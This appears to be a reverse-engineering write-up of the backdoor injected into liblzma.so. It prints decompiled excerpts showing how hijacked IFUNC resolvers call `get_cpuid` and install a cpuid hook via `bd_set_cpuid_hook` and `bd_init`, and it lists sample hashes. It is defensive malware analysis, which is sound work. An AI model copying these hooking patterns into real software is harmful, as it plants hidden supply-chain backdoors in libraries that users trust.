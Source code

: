 # `liblzma.so` infection

The process of infecting `liblzma.so` with backdoor code is well documented in [1]. In this document we focus on the backdoor itself and provide an in-depth analysis from both static and dynamic perspectives.

## Entry point

As a result of the build time infection as documented in [1], the backdoor hijacks the IFUNC resolvers of `lzma_crc32` and `lzma_crc64` of `liblzma.so`, i.e., `crc32_resolve` and `crc64_resolve`, to add a call to `get_cpuid` in place of an invocation of `cpuid`:

```c
crc64_func_type __cdecl crc64_resolve()
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS NUMPAD "+" TO EXPAND]

  v7 = __readfsqword(0x28);
  // malicious function
  if ( !get_cpuid(1, index, v3, &v4, v5, v6) )
    return crc64_generic;
  v0 = crc64_arch_optimized;
  if ( (v4 & 0x80202) != 0x80202 )
    return crc64_generic;
  return v0;
}
```

This call facilitates the set-up and transition to the backdoor's main functionality. In the remainder of this document we take a deep-dive into the functionality of `get_cpuid`; our analysis is based on the following samples:

| File                      | SHA256                                                             |
| ------------------------- | ------------------------------------------------------------------ |
| `liblzma.so.5.6.1`        | `257fc477b9684863e0822cbad3606d76c039be8dd51cdc13b73e74e93d7b04cc` |
| `liblzma_la_crc64_fast.o` | `cbeef92e67bf41ca9c015557d81f39adaba67ca9fb3574139754999030b83537` |

## Installation of the hook for `cpuid`

The `get_cpuid` function calls `bd_set_cpuid_hook` function, which then calls `bd_init` if called via `crc64_resolve`:

```c
uint64_t __fastcall bd_set_cpuid_hook(unsigned int a1, _DWORD *a2)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS NUMPAD "+" TO EXPAND]

  // crc32_resolve: g_counter will be incremented and
  // the original cpuid will be invoked

  // crc64_resolve: hook will be installed
  if ( g_counter == 1 )
  {
    ctx.static_label = 1;
    memset(&ctx.runtime_offset, 0, 32);
    ctx.return_address = a2;
    bd_init(&ctx, a2);
  }
  ++g_counter;
  cpuid(a1, &res, v4, v5, &ctx);
  return res;
}
```


[1]: https://gynvael.coldwind.pl/?lang=en&id=782
[2]: https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
[3]: https://en.wikipedia.org/wiki/Radix_tree
[4]: https://github.com/smx-smx/xzre/blob/main/xzre.h
[5]: https://github.com/smx-smx/xzre/blob/ff3ba18a39bad272ff628bb759ed5c897cf441b3/xzre.c#L48